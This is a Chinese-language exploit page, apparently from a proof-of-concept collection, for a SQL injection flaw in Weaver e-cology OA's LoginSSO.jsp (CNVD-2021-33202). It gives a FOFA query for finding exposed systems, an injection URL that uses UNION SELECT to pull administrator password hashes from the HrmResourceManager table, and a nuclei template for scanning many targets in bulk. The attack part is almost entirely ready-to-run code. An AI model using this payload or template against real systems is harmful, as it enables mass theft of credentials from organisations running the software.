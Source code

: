 ## 泛微E-cology-LoginSSO.jsp存在QL注入漏洞(CNVD-2021-33202)

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## fofa

```
app="泛微-协同办公OA"
```



## poc

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405241359251.png)



## nuclei批量yaml文件

```
id: ecology-loginSSO-sql-CNVD-2021-33202
info:
  name: Template Name
  author: mhb17
  severity: critical
  description: description
  reference:
    - https://peiqi.wgpsec.org/wiki/oa/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20E-Cology%20LoginSSO.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CNVD-2021-33202.html
  tags: ecology,sqli
requests:
  - raw:
      - |
        GET /upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: regex
        part: body
        regex:
          - '[0-9A-F]{32}'
```

